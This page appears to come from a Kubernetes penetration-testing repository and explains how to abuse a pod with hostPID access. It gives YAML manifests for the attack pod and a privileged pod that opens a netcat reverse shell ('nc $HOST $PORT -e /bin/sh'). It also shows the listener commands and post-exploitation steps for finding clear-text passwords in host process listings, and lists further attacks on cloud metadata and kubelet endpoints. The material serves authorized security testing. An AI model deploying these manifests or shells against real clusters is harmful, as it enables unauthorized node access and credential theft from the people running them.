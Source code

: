 ## You can create a pod with only hostPID

You are exploiting the fact that there are no polices preventing the creation of pod with access to the node's filesystem. You are going to create a pod and gain full read/write access to the filesystem of the node the pod is running on. 


# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostpid
  labels:
    app: hostpid
spec:
  hostPID: true
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "604800"
    imagePullPolicy: IfNotPresent
    name: hostpid
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name  restartPolicy: Always
  ```
[pod-priv.yaml](pod-priv.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f hostpid.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostpid/hostpid.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostpid -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-revshell
  labels: 
    app: pentest
spec:
  containers:
  - name: priv-revshell
    image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    securityContext:
      privileged: true
  #nodeName: k8s-control-plane-node # Force your pod to run on a control-plane node by uncommenting this line and changing to a control-plane node name
  restartPolicy: Always
  ```
[hostpid-revshell.yaml](hostpid-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" envsubst < ./yaml/hostpid/hostpid-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```


# Post exploitation

#### View all processes running on the host and look for passwords, tokens, keys, etc. 
```bash
ps -aux
...omitted for brevity...
root     2123072  0.0  0.0   3732  2868 ?        Ss   21:00   0:00 /bin/bash -c while true; do ./my-program --grafana-uername=admin --grafana-password=admin; sleep 10;done
...omitted for brevity...
```
Check out that clear text password in the ps output below! 

#### Also, you can also kill any process, but don't do that in production :)

#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.

